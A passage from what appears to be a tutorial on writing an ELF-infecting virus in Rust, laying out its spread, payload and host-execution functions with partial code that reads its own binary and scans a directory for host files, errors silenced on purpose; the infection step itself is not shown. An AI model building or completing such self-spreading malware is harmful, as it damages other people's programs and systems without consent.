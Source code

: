 1. Look for files to spread to and perform the above 4 infection steps
2. Run its own `main` (do something a virus would do)
3. Execute the original ELF file

That's the theory - now to practice!

As explained above, the virus will have 3 primary functions:

```rust
/// Finds and infects other ELF files
fn spread_and_infect() {}

/// Code that is executed when an infected file is ran
fn virus_main() {}

/// Extracts and execute the host code
fn execute_host() {}
```

Note that these tasks are independent of each other: even if `spread_and_infect` fails, `virus_main` should execute, and if that fails, `execute_host` should execute. Additionally, as a virus, we don't need to have verbose error handling; silent errors are okay!

## Spreading to other ELFs

The `spread_and_infect` function needs to know 2 things:
- where to look for potential hosts
- the virus code to inject if it does find a host

We can pass this information as arguments:

```rust
use std::{env, fs};

/// Finds and infects other ELF files
fn spread_and_infect(dir: &str, virus: &[u8]) {}

fn main() {
    let my_name = &env::args().collect::<Vec<String>>()[0];
    if let Ok(my_code) = fs::read(my_name) {
        // Spread and infect neighboring ELFs
        spread_and_infect(".", &virus);  
    }
}
```

The code of `spread_and_infect` should search for ELF files in the given directory, check if they are a suitable host, and infect them. The function should `return` silently if `fs::read_dir` fails.

```rust
/// Finds and infects other ELF files
fn spread_and_infect(dir: &str, virus: &[u8]) {    
    let entries = match fs::read_dir(dir) {
        Ok(v) => v.filter_map(Result::Ok).collect(), // Ignore Result<DirEntries> that are `Err`
        Err(_) => return,
    };

    for entry in entries {
        let mut contents = match fs::read(entry.path()) {
            Ok(v) => v,
            Err(_) => continue, // Skip if unable to read (bad permissions etc)
        };

        // ...
    }
}
```
